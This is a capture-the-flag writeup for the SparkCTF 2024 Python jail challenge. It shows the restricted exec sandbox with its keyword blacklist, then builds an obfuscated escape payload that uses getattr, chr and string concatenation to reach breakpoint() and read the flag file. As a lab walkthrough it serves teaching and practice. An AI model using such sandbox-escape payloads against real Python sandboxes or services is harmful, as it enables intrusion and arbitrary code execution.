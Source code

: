## Pyhell-Task-SparkCTF-2024
This repo will cover the writeup for the pyjail task hosted at SparkCTF 2024
# Description
This task focused on breaking a Python environment that restricts the built-in functions accessible to the user and employs a blacklist to prohibit specific keywords and characters, which could otherwise be exploited to circumvent these limitations.

#### Files: jail.py
```python
import re
import builtins
import sys

def safe_eval(user_input):
    safe_builtins = {
        "__builtins__": {name: getattr(builtins, name) for name in ['print', 'int', 'float', '__import__', 'getattr', 'chr']}
    }

    try:
        exec(user_input, safe_builtins, {})
    except Exception as e:
        print(f"Error: {e}")
        sys.exit(1)

def jail():
    ascii_art = """
                                                                                                        _..._                                  
                                .---..---.                                                           .-'_..._''.                    .---..---. 
   .              __.....__     |   ||   |          .--.   _..._                                   .' .'      '.\\     __.....__     |   ||   | 
 .'|          .-''         '.   |   ||   |          |__| .'     '.                                / .'            .-''         '.   |   ||   | 
<  |         /     .-''"'-.  `. |   ||   |          .--..   .-.   .                              . '             /     .-''"'-.  `. |   ||   | 
 | |        /     /________\\   \\|   ||   |          |  ||  '   '  |              __              | |            /     /________\\   \\|   ||   | 
 | | .'''-. |                  ||   ||   |          |  ||  |   |  |           .:--.'.            | |            |                  ||   ||   | 
 | |/.'''. \\\\    .-------------'|   ||   |          |  ||  |   |  |          / |   \\ |           . '            \\\\    .-------------'|   ||   | 
 |  /    | | \\    '-.____...---.|   ||   |          |  ||  |   |  |          `" __ | |            \\ '.          .\\    '-.____...---.|   ||   | 
 | |     | |  `.             .' |   ||   |          |__||  |   |  |           .'.''| |             '. `._____.-'/ `.             .' |   ||   | 
 | |     | |    `''-...... -'   '---''---'              |  |   |  |          / /   | |_              `-.______ /    `''-...... -'   '---''---' 
 | '.    | '.                                           |  |   |  |          \\ \\._,\\ '/                       `                                
 '---'   '---'                                          '--'   '--'           `--'  `"                                                         
!! Even Michael Scofield can not escape this .
    """
    print(ascii_art)

    max_input_length = 553

    while True:
        user_input = input(">>> ")

        if len(user_input) > max_input_length:
            print("Bro chill !!! That's kinda long")
            continue

        blacklist = ['exec', 'eval', 'os', 'sys', 'subprocess', 'file', 'open', 'register', 'setattr', 'input', 'mro', 'globals', 'class', 'getitem', 'breakpoint', '_', '.','[',']']

        for block in blacklist:
            if block in user_input:
                print(f"No no {block} is not allowed in here")
                break
        else:
            safe_eval(user_input)

if __name__ == "__main__":
    jail()
```
### Payload-example :
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```

This payload navigates Python's internal structures to reference the original __builtins__ module not the restricted version provided in the script.
But first we need to find replacements for `_ [ ] .` and other words like `class register builtins breakpoint`.
The main key is to exploit the custom builtins set in our `safe_eval` function. Pretty much `print int float` are kinda usless in our case ( maybe print is useful to test ). We can notice that we have the `getattr` function which if you google it you can already find that it can replaces `.` to accessing attributes.
Another thing in our custom builtins we notice the `chr` function which we can use to replace the `_` by just using `chr(95)`, so now 2 of our major problems are done. 
We will conduct another search to find alternatives for replacing the use of `[]` in Python and one of the main things we will find is the use of getitem method.
We are almost done we found a way to replace the main restrictions  `_ [ ] .`. Now we just need to find a way to bypass the restrictions set for the words in the blacklist which pretty easy we need just to concatenate them using `+` for example we change `class` to `'cl'+'ass'`. That's it now we how to bypass everything all we need to do is construct our new payload ( just don't tilt while constructing it ) 
Our payload should transform from: 
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```
to: 
 ```python
getattr(getattr(getattr(getattr(getattr(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'subcl'+'asses' + chr(95) + chr(95))(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95))), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))(0), 'regi'+'ster'), chr(95) + chr(95) + 'buil'+'tins' + chr(95) + chr(95)), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))('break'+'point')()
```
After using the brekpoint() function and starting the debugger we can just open our flag 
![Alt text](/flag.png)

 ```python
print(__import__('builtins').open('flag.txt', 'r').read())                                                                                                                                                                            
```
We need to import the builtins once again since open is not defined ( sorry not sorry) 
and their we go we have our flag : `SparkCTF{PYJ41L_15_N0_FUN}`
